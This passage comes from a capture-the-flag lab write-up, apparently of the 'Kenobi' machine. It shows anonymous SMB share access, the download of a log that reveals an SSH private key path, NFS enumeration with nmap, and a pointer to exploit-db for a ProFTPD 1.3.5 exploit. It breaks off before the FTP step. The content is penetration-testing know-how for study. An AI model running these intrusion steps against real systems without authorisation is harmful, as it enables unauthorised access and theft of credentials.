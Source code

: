 
>**smbclient //10.10.23.89/anonymous**

```js
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ smbclient //10.10.23.89/anonymous
Password for [WORKGROUP\mustafa]:
Try "help" to get a list of possible commands.

smb: \> ls
  .                                   D        0  Wed Sep  4 12:49:09 2019
  ..                                  D        0  Wed Sep  4 12:56:07 2019
  log.txt                             N    12237  Wed Sep  4 12:49:09 2019
m
		9204224 blocks of size 1024. 6877104 blocks available
smb: \> mget log.txt
Get file log.txt? y
getting file \log.txt of size 12237 as log.txt (13.8 KiloBytes/sec) (average 13.8 KiloBytes/sec)
smb: \> 
```
----

## we get log.txt it has sensitive information 
path of ssh id_rsa &rarr; /home/kenobi/.ssh/id_rsa

# rpcbind Enumeration
we have rpcbind service running on port 111 

>**nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount**

```js
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.23.89
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-06 22:54 EEST
Nmap scan report for 10.10.23.89
Host is up (0.10s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

```
-----

## We have var Directoy and know the FTP version ProFTPD 1.3.5 
Go to [exploit-db](http://https://www.exploit-db.com/ "exploit-db") and search for exploit or use Searchsploit

# Connect to FTP via nc on port 21
